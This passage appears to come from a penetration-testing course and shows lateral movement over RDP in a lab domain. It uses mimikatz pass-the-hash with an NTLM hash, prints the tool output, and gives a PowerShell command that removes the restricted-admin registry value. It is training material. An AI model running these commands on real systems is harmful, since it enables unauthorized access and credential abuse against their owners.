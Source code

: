 We will assume that we are already in possession of the _admin_ user NTLM hash and are logged in to the Windows 10 client as the _dave_ user. We can then run mimikatz from an administrative console and use the pth command to launch a mstsc.exe process in the context of the _admin_ user:

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::pth /user:admin /domain:corp1 /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
user    : admin
domain  : corp1
program : mstsc.exe /restrictedadmin
impers. : no
NTLM    : 2892d26cdf84d7a70e2eb3b9f05c425e
  |  PID  9500
  |  TID  9420
  |  LSA Process is now R/W
  |  LUID 0 ; 39684671 (00000000:025d8a3f)
  \_ msv1_0   - data copy @ 0000024C0DD4CCA0 : OK !
  \_ kerberos - data copy @ 0000024C0DDC19B8
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 0000024C0E0BF748 (32) -> null
```

> Listing 4 - Launching a mstsc.exe process in the context of the admin user

Once the command finishes, an instance of mstsc opens as shown in Figure 3.

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/lm/4f353ef67694d99434db2c8d4ad0d7d8-lm_rdp_resadminlogin.png" alt="Figure 3: RDP login with restricted admin mode as admin"><figcaption><p>Figure 3: RDP login with restricted admin mode as admin</p></figcaption></figure>

Clicking _Connect_ opens an RDP session on appsrv01 as _admin_, achieving lateral movement with the native RDP client in Windows with only the NTLM hash.

Even though we opened a session as _admin_, the dialog suggests we are authenticating as _dave_. This error stems from passing the hash with Mimikatz.

As mentioned previously, restricted admin mode is not enabled by default. However, if we are in possession of a password hash for a local account on the target machine, we can enable it in order to be able to use a RDP connection to that target.

To demonstrate this, we will first disable the restricted admin mode on our appsrv01 target. We'll do this from the RDP session as the _admin_ user we just created by executing the PowerShell command in Listing 5.

```
Remove-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin
```

> Listing 5 - Deleting registry key required to use restricted admin mode
